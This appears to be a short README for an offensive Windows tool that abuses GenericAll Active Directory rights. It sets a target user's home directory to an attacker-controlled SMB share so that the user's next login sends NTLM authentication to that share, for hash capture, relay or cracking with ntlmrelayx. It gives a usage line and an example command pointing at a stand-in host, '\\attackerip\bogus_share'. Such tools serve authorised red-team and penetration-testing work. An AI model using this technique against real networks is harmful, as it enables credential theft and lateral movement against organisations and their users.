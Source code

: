 # HomeDirectory
Leverage existing 'GenericAll' AD rights over an object ie: user to set their profile to an attacker smb server ie: ntlmrelayx to dump hashes, relay, crack.

Usage: HomeDirectory.exe <username> <drive letter> <attacker share>
Example: HomeDirectory.exe jblogg N \\attackerip\bogus_share
    * targets next login will trigger NTLM auth when trying to retrieve profile from attackers smb server
  
 
